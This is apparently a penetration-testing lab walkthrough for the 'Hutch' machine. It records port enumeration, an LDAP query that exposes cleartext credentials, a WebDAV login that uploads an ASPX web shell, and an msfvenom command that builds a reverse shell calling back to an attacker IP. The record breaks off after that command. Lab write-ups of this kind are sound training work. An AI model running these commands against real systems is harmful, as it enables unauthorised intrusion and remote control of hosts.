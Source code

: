 ## Port 53 - Domain (Simple DNS Plus)
- Identified "Simple DNS Plus" - potentially vulnerable to CVE-2020-1350
	- https://datafarm-cybersecurity.medium.com/exploiting-sigred-cve-2020-1350-on-windows-server-2012-2016-2019-80dd88594228
## Port 80 - HTTP (Microsoft IIS)
- Navigated to `http://192.168.171.122:80` and identified default page for `Microsoft IIS` service
![[Pasted image 20241027170248.png]]
## Port 88 -  Kerberos (Microsoft Windows Kerberos)
No enumeration conducted
## Port 135 - MSRPC (Windows RPC)
No enumeration conducted
## Port 139 & 445 - SMB (Microsoft Windows netbios-ssn)
No enumeration conducted
## Port 389 & 3268/9 - LDAP (Microsoft Windows Active Directory)
- Ran `sudo nmap -n -sV -Pn -script 'ldap* and not brute' 192.168.171.122` to identify potenial scripts for LDAP - identified Domain Name `hutch.offsec`
![[Pasted image 20241027175147.png]]
- Ran `ldapsearch -v -x -b 'DC=hutch,DC=offsec' -H 'ldap://192.168.171.122' '(objectclass=*)'` to identify users
- Identified clear text credentials for `fmcsorley:CrabSharkJellyfish192` in user description
![[Pasted image 20241027175717.png]]
## Port 464 - Kerberos (Password Change)
No enumeration conducted
## Port 593 - ncacn_http
No enumeration conducted
## Port 636 - tcpwrapped
No enumeration conducted
## Port 5985 - http (Microsoft HTTPAPI httpd 2.0)
- Navigated to `192.168.171.122:5985` and identified `404 Not Found` page
![[Pasted image 20241027172925.png]]
## Ports 49666/8, 49674/6, 49692, 49756,  - MSRPC (Windows RPC)

---
# Exploitation
## Malicious File Upload
- Ran `cadaver http://192.168.171.122` & logged in with credentials `fmcsorley:CrabSharkJellyfish192` to access `WebDav`
- Ran `put /usr/share/webshells/aspx/cmdasp.aspx` to upload command web shell
![[Pasted image 20241027181048.png]]
- Navigated to `http://192.168.171.122/cmdasp.aspx` to confirm upload and test command execution
![[Pasted image 20241027181112.png]]
- Ran `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.199 LPORT=4444 -f exe > revshell2.exe` to create reverse shell executable